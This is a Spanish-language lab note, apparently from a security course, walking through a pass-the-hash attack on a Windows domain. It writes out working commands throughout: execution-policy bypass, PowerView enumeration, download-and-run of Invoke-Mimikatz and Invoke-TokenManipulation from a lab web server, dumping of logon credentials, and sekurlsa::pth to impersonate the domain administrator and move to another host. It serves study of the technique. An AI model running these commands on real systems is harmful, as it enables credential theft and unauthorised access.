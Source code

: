 
Es una técnica de robo de credenciales basada en sistemas windows. Este ataque consiste en obtener el hash de la passwd de un usaurio para autenticarse como ese usuario.

El ataque suele empezar teniendo acceso al systema comprometido donde el usuario a almacenado el hash de su passwd. Una vez el hash es obtenido el atacante explota la vulnerabilidad en el protocolo de autenticación de windows.

Este ataque no requiere crackear el hash.

Ejemplo práctico:

```powershell
cd C:\tools
powershell -ep bypass
. .\PowerView.ps1
Get-Domain
```

![[Pasted image 20250401085755.png]]

```powershell
Find-LocalAdminAccess
# la respuesta es seclogs.research.SECURITY.local

Enter-PSSession seclogs.research.SECURITY.local
#Entramos en el dominio

#vemos los privs
whoami /all
```

![[Pasted image 20250401090010.png]]

Ejecutamos el web server de hfs y en la primera opción del ejecutable decimos que no.

![[Pasted image 20250401090057.png]]

En el apartado de add files añadimos:

- Invoke-Mimikatz.ps1
- Invoke-TokenManipulation.ps1

```powershell
#La ip es la del recuadro anterior
iex (New-Object Net.WebClient).DownloadString('http://10.0.5.101/Invoke-TokenManipulation.ps1')

#enumera todos los tokens posbiles.
Invoke-TokenManipulation -Enumerate
```

![[Pasted image 20250401090428.png]]

```powershell
iex (New-Object Net.WebClient).DownloadString('http://10.0.5.101/Invoke-Mimikatz.ps1')

Invoke-Mimikatz -Command '"privilege::debug" "token:elevate" "sekurlsa::logonpasswords'
```

![[Pasted image 20250401090613.png]]


Ejecutamos un powershell como administrador.

```powershell
cd C:\\
cd .\Tools
powershell -ep bypass
. .\Invoke-Mimikatz-ps1

#Cambiar el hash por el correcto.
Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:research.SECURITY.local /ntlm:hash /run:powershell.exe'
```

Esto lo que hace es generar un nuevo powershell pero con otro usuario.

```powershell
Enter-PSSession prod.research.SECURITY.local
hostname
```

![[Pasted image 20250401091328.png]]


